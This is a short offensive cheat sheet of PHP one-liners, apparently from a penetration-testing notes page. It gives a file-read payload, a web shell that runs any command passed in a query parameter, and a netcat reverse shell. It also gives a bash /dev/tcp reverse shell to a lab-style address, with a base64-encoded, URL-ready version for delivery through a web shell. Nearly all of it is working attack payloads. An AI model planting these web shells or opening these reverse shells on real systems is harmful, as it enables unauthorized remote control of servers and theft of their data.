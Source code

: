 ## PHP One-liners

Read arbitrary files from the server's filesystem:

`<?php echo file_get_contents('/path/to/target/file'); ?>`

Pass an arbitrary system command via a query parameter: _(exploit.php?command=whoami)_

`<?php echo system($_GET['command']); ?>`

Execute commands on the host:

`<?php $out=shell_exec('nc64.exe IP PORT -e cmd.exe'); echo '<pre>'.$out.'</pre>'; ?>`

If theres ever a time we have a web-shell, and we want to leverage it to get a full reverse shell:

```
First, base64 encode:
/bin/bash -i >& /dev/tcp/10.10.14.14/5555 0>&1

Final payload: (Dont forget to URL encode)
echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjE0LzU1NTUgMD4mMQo= | base64 -d | bash
```

